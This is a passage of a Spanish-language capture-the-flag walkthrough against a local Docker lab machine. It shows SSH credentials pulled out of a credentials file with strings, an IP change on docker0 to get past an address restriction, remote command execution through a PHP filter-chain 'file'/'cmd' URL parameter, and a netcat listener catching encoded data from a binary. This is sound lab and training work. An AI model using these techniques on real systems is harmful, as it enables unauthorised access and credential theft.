 Al hacer un **ls -l**, vemos un **credentials.txt** que tiene muchas cosas ilegibles, por lo que :

```bash
strings credentials.txt | grep "darks"
        echo "<div class='login-container'><h2>Darks, el sistema a sido configurado para restringir un rango de ip por seguridad, ten esto en cuenta ya que si no te encuentras en el segmento correcto nada funcionara, tus nuevas credenciales ssh son: darks:_dkvndsqwcdfef34445 </h2></div>";

```

Tenemos las credenciales ssh de **darks** y vemos que están restringiendo IPs.

Al hacer mirar los procesos con ps, vemos que podemos usar IPs a partir de la 151 incluida, por lo que en mi caso:

```bash

sudo ip address del 172.17.0.1/16 dev docker0
sudo ip address add 172.17.0.151/16 dev docker0

```

YA ESTAMOS COMO DARKS. AL ENTRAR VEMOS QUE NO NOS SIRVE ESTAMOS EN UNA RBASH.

Al curiosear un poco mas:

```bash

http://172.17.0.2/index.php?file=<PHP CHAIN>&cmd=cd .. ; ls -l

```

Vemos que hay un ejecutable **sendinv2** y si le aplicamos un strings:

```bash

http://172.17.0.2/index.php?file=<PHP CHAIN>&cmd=cd .. ; strings sendinv2

```

Vemos lo siguiente:

```bash

Error al crear el socket
172.17.0.188
Error al enviar datos

```

Por lo que vamos a cambiarnos de IP y vamos a usar **wireshark**.
Vemos que nos intenta enviar paquetes a nuestro puerto 7777 mediante UDP -> `nc -nlvup 7777`

Nos envía lo siguiente:

```bash

MFDTS42ZKNCWOYZSHF2GEM2NM5NFO53HLIZUUMLDI44GOULNPBUFSMTUIRMVQULTJFEEE3DCNZHGQYSXHF5ESR2WOVEUOVTVLEZUU4DDJBJGQY3JIJWGGM2SNQFESSCONRRW4WTMMNUUE522LBFHMSKHGV3ESSCSOBNFONLMJFDTK2C2I5CWOWSHKVTWCVZVGBNFQSTMMN4XOZ3EI5KWOWKXNB3GG3SKNBRW2VLHMRDWY3DCLBBHMCSPNFBGUY3NNR5GIR2GONHW2UTZMIZUE2TBI44XUZCHHF3U4RCVPJKTA4CHJFCG6Z22I5WHUWTOJIYWIR2FJMFA====

```
